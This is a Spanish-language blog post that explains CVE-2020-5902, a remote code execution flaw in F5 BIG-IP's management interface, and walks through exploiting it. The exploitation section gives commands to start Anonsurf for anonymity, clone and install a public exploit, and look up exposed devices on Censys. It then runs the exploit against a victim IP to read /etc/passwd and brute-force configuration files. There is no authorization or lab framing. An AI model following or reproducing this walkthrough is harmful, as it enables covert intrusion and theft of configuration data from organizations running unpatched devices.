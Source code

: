 ```yaml
---
layout: single
title: Explotación de CVE-2020-5902 - Vulnerabilidades
excerpt: "Una vulnerabilidad de ejecución remota de código de proxy/equilibrador de carga F5 BIG-IP® 8."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png
  teaser_home_page: true
  icon: /assets/images/f5.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-5902
  - f5
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png)

## Descripción

BIG-IP es un dispositivo de red multipropósito muy popular que es utilizado por una gran cantidad de compañías que manejan información sensible a lo largo del mundo. Los dispositivos BIG-IP son utilizados tanto en redes gubernamentales y de proveedores de servicios de Internet (ISPs), así como por bancos a lo largo del mundo y muchas redes empresariales. Según explica F5 en su sitio web, este producto es utilizado por 48 compañías que integran la lista Fortune 50. De hecho, dada la criticidad de la vulnerabilidad y su potencial impacto, el Cibercomando de Estados Unidos replicó la advertencia emitida por la compañía y llamó a instalar el parche que repara el fallo lo antes posible.

CVE-2020-5902 es una vulnerabilidad crítica en la interfaz de usuario de administración de tráfico BIG-IP (TMUI) también conocida como la utilidad de configuración. La vulnerabilidad recibió una calificación CVSSv3 de 10.0, la puntuación más alta posible. La vulnerabilidad se puede explotar cuando el acceso de red a la TMUI se expone a través del puerto de administración BIG-IP o las IP automáticas. La explotación exitosa de este defecto concedería a un atacante una variedad de privilegios, incluyendo la capacidad de ejecutar comandos arbitrarios del sistema o código Java, crear o eliminar archivos, así como deshabilitar los servicios en el host vulnerable. El asesor afirma que la vulnerabilidad también podría "resultar en un compromiso completo del sistema".

# Productos Afectados:

BIG-IP (LTM, AAM, WAF avanzado, AFM, análisis, APM, ASM, DDHD, DNS, FPS, GTM, controlador de enlace, PEM, SSLO, CGNAT), Rma 11x, 12x, 13x, 14x, 15x, 16x., versiones 11.6.1 - 11.6.5, 12.1.0-12.1.5,13.1.0-13.1.3,14.1.0-14.1.2,15.1.0 - 15.0.1.


# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59022.png)

Procedemos a clonar el paquete de Git Hub con el exploit de la vulnerabilidad.

•	git clone https://github.com/yasserjanah/CVE-2020-5902

Ingresamos al directorio descargado

•	cd CVE-2020-5902/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59023.png)

Realizamos la siguiente instalación dentro del directorio.

•	pip3 install -r ./requirements.txt

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59024.png)

Realizamos la búsqueda de un equipo vulnerable en la página de Censys con la vulnerabilidad “BIG-IP & reg”.

•	https://censys.io/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59025.png)

Ejecutamos el exploit con extensión .py que está dentro del directorio.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -f /etc/passwd

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59026.png)

Usamos -b para archivos de fuerza bruta de una lista de palabras.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -b

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59027.png)

Al finalizar el comando, nos dirigimos en donde se almacenan los resultados del exploit y podremos observar cómo descarga los archivos de las diferentes configuraciones del dispositivo.

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59028.png)




